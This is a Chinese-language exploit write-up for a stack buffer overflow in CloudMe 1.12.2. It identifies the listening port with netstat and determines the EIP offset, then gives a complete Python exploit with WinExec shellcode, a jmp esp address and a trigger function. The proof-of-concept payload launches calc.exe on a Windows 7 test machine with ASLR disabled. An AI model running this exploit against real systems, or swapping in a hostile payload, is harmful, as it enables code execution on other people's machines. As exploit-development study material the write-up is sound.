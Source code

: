 ## cloudme 1.12.2 buffer overflow

2019-5-30

exploit-db上的POC<https://www.exploit-db.com/exploits/46218>

可在该网站下到本文使用到的二进制文件

### 确定漏洞

在安装程序后，运行CloudMe，使用`netstat -ano`命令发现，该程序会在本地回环地址127.0.0.1上监听TCP8888端口。

```
C:\Users\leaf>netstat -ano
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2908
```

使用python单次发送大量数据(8000个字节），程序会崩溃，确定有溢出的情况

由于程序使用到了QT中的网络请求函数，由于没用过此库，直接给recv函数下断没有反应，于是首先二分算法大致找到溢出至少需要发送的字节。然后再根据程序崩溃信息确定覆盖EIP的地方



### 漏洞利用

测试环境为 Windows 7 SP1 x64，关闭了ASLR

经过测试程序的栈上数据可以执行，于是考虑写入shellcode，通过跳转进行恶意代码的执行

此处使用的shellcode能自动定位WinExec函数在内存中的位置，详情见[跨Windows版本的shellcode](../windows_shellcode.md)

```python
#python3
from socket import *

buf=b'\x50\x53\x51\x52\x56\x57\x55\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x31\xF6\x64\x8B\x5E\x30\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x26\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x46\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3' #call winexec to run calc.exe

jmpesp = b'\x9d\xdc\x86\x77'#7786DC9D  - FFE4            jmp esp, from kernel32.dll

def trigger(byte):
    fd = socket()
    fd.connect(("127.0.0.1", 8888))
    fd.send(b'a'*byte+b'BBBB' + jmpesp + buf)
    fd.close()

trigger(1048)

```

代码执行后服务崩溃，并会弹出一个计算器



### 扩展阅读

portable windows shellcode编写<https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html>